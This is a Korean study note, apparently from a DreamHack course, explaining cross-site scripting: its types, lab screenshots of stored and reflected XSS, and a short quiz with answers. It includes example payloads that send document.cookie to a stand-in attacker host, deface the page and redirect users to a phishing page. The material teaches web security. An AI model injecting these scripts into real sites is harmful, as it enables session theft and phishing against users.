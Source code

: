 # Cross Site Scripting (XSS)

## Cross Site Scripting (XSS)

XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취

**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.

<img src="1.jpg">

## XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.

예를 들어 **<script>** 등을  이용해  악성  스크립트를  만들어서  사용자가  실행하게  한다.

XSS  종류는  다양하지만, 여기서는 4가지  정도  언급한다.  

|종류|내용|
|---|-----|
|Stored  XSS|XSS에  사용되는  악성  스크립트가 **서버에  저장**되고  서버의 **응답에  담겨오는** XSS|
|Reflected  XSS|XSS에  사용되는  악성  스크립트가 **URL에  삽입**되고  서버의 **응답에  담겨오는** XSS|
|DOM-based  XSS|XSS에  사용되는  악성  스크립트가 **URL  Fragment에  삽입**되는  XSS|
|Universal  XSS|클라이언트의 **브라우저** 혹은 **브라우저의  플러그인**에서  발생하는  취약점으로 **SOP  정책을  우회**하는  XSS|

<img src="2.jpg">

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.

<img src="3.jpg">

## XSS 스크립트 예시

아까 적었던 것처럼 **<script>** 를  통해  악성  스크립트를  만듭니다.

즉, 자바스크립트를 주로 사용한다.

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");

// 현재 페이지의 쿠키(return type: string)
document.cookie;

// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);

// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";

// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new  Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.

```html
<script>
// 이용자의 페이지 정보에 접근.
document;

// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위의 코드는 **페이지 변조** 공격 코드이다.

```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing";

// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

위의 코드는 **위치 이동** 공격 코드이다.  

# Basic XSS Lab(개편 전 실습)
## Types of XSS: Wrapup
### Stored XSS

**Stored XSS** : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS(예 : 악성 스크립트가 들어간 게시물, 댓글 등)

<img src="4.jpg">

이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.

<img src="5.jpg">

### Reflected XSS

**Reflected XSS** : 서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생함(예 : 검색결과가 URL에 포함되는 경우 -> 검색엔진)
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생
--> 이용자들이 악성 링크에 접속하게 유도해야함(**Click Jacking** 또는 **Open Redirect**와 같은 취약점과 연계)

<img src="6.jpg">

다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.

<img src="7.jpg">

그런데, 여기에 스크립트를 넣을 수도 있다.

<img src="8.jpg">

## Basic XSS Lab
**추후에 추가**

# 마치며
- **Cross Site Scripting (XSS)**: 클라이언트 사이드 취약점, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 이용자의 웹 브라우저에서 해당 **스크립트를 실행**하는 취약점.
- **Stored XSS**: 악성 스크립트가 **서버 내에** 존재, 이용자가 저장된 **악성 스크립트를 조회**할 때 발생
- **Reflected XSS**: 악성 스크립트가 **이용자 요청 내에** 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 **응답을 출력**할 때 발생

# 퀴즈
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
**답 : Reflected XSS**

2. XSS 취약점이 발생하는 곳은?  
**답 : 클라이언트 + 서버**

3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
**답 : Stored XSS**